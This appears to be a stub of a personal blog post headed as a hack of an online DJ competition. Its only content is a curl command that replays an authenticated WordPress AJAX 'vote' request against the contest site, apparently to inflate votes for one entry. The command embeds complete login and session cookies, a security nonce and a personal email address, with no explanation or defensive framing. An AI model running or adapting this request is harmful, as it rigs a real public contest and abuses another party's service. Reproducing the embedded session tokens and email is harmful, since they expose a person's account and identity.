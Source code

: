 ```yaml
---
title: "Hor Berlin - Maximum Heat"
date: "2025-05-16"
slug: "hor-berlin"
---
```


# How I Hacked Hor Belin - Maximum heat DJ competition

curl -X POST 'https://hoer.live/wp-admin/admin-ajax.php' \\n  -H 'Content-Type: application/x-www-form-urlencoded' \\n  -H 'Cookie: wordpress_sec_471f8b8c7626cb332fe703edc58c1a00=jordan.gallant.ct@gmail.com|1745908244|8gvejWrIQOvFzuoG0riBKOjLTQQingRn6laV84EaCNH|7266f124873bce04fb543dde89d68d36d72b0951406defcca85938f590b13e5d; PHPSESSID=v0pqjori952daiefm5cjcfoi3v; shop_popup=2024-09-17 12:58:48; sbjs_migrations=1418474375998=1; sbjs_first_add=fd=2025-04-15 05:25:56|||ep=https://hoer.live/|||rf=(none); sbjs_first=typ=typein|||src=(direct)|||mdm=(none)|||cmp=(none)|||cnt=(none)|||trm=(none)|||id=(none)|||plt=(none)|||fmt=(none)|||tct=(none); cookieConsent=consent; videoMuted=true; wordpress_test_cookie=WP Cookie check; wordpress_logged_in_471f8b8c7626cb332fe703edc58c1a00=jordan.gallant.ct@gmail.com|1745908244|8gvejWrIQOvFzuoG0riBKOjLTQQingRn6laV84EaCNH|37bbd75563f92812f88f53298e02b1e3cb0e9053d4c312a64fdb7ae04d000020; wp_woocommerce_session_471f8b8c7626cb332fe703edc58c1a00=117923||1744871089||1744867489||d6c4a7fdd2d28b8ce7aa9a1bc0074fec; sbjs_current_add=fd=2025-04-15 07:10:47|||ep=https://hoer.live/maximum-heat-contest/?signed=g?signed=g|||rf=https://accounts.google.com/; sbjs_current=typ=referral|||src=accounts.google.com|||mdm=referral|||cmp=(none)|||cnt=/|||trm=(none)|||id=(none)|||plt=(none)|||fmt=(none)|||tct=(none); sbjs_udata=vst=2|||uip=(none)|||uag=Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36; current=Nastya Vogan|https://hoer.live/nastya-vogan-hor-mar-9-2023/|XI5LNhke7q4|36514; currentTime=0; sbjs_session=pgs=21|||cpg=https://hoer.live/contest_entry/719-jgsleepwithme/' \\n  -d 'action=vote&security=b5c9006423&post_id=218037&isVoted=0'
